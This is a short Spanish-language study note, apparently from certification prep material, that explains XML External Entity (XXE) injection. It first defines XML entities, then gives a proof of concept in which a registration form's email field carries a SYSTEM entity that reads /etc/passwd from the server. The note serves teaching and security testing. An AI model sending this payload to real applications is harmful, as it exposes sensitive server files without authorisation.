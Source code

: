 ## XML External Entity Injection (XXE)
### Concepto ENTIDAD

Con XXE, conseguimos ver el contenido de ficheros sensibles que tiene una máquina víctima a través de peticiones web XML.

Primero debemos conocer que es una entidad. Cuando se declara una ENTITY en XML, estamos dándole un nombre y un valor, que luego se puede utilizar en cualquier campo de datos XML como si fuera una variable. 

Es decir en ENTITY se da el valor, y luego se hace la llamada desde donde queramos y las veces que queramos. Un ejemplo de código:

```
<!ENTITY nom "glmbx">
<root>
	<name>
		&nom; <!-- Aquí estamos haciendo referencia a "glmbx"-->
	</name

	<apellidos>
	Herrera Galamba
	</apellidos>
</root>
```

## Prueba de concepto

Tenemos un formulario de registro, donde introducimos datos y estos se envian al servidor. En este caso, si analizamos con el repeater de burpsuite nos encontraremos que en el output nos devuelve el contenido de uno de los campos que introducimos en el formulario.  

Este campo nos interesa ya que será el que aprovechemos para la inyección. En este  caso es el campo  ```<email></email> ``` 

Declaramos una entidad del tipo **file** en la que le diremos que fichero queremos leer: 
```
<!DOCTYPE foo [<!ENTITY myfile SYSTEM "file:///etc/passwd">]>
<root>
	<name>test</name>
	<tel>1235678</tel>
	<email>&myfile;</email> <!--Aqui hacemos referencia a la entidad, que a su vez está recogiendo los datos del fichero etc/passwd -->
	<password>123235</password>

</root>
```
<img src="https://raw.githubusercontent.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/main/images/xxe1.png">
